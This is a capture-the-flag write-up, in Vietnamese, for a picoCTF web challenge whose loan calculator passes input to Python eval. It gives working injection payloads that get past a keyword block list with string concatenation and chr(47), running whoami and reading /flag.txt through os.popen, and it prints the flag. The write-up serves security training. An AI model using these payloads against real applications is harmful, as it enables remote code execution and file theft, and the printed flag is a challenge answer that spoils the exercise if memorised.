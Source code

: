 # 3v@l

Web, 100 points

## Description:

> CABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an eval function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?

## Hint:

> 1.  You might need encoding or dynamic construction to bypass restrictions.
> 2.  The flag file is /flag.txt
> 3.  You might need encoding or dynamic construction to bypass restrictions.

## Solution:

Đây là 1 thử thách khá đơn giản, đọc đề bài thì ta cũng biết cách tấn công là thực thi mã từ xa RCE đặc biết là bypass bỏ qua được regex

Thử 1 lúc các payload thì có thể biết được hệ thống đã chặn 1 số từ nhạy cảm như `os, shell, ls, cat, /`. Nhưng không có vấn đề gì khi ta có thể sử dụng nối chuỗi

```
__import__('o' + 's').popen('w' + 'h' + 'o' + 'a' + 'm' + 'i').read()
```

Chúng ta đã bypass thành công khi hệ thống trả về kết quả là **app**

Vì biết được flag ở file **/flag.txt** nên ta có thể sử dụng ngay payload này để đọc flag

```
__import__('o' + 's').popen('c' + 'a' + 't ' + chr(47) + 'f' + 'l' + 'a' + 'g' + '.' + 't' + 'x' + 't').read()
```

Sử dụng `chr(47)` để thay thế cho dấu `/` vì bị chặn trước đó

```
picoCTF{D0nt_Use_Unsecure_f@nctionsd062d012}
```

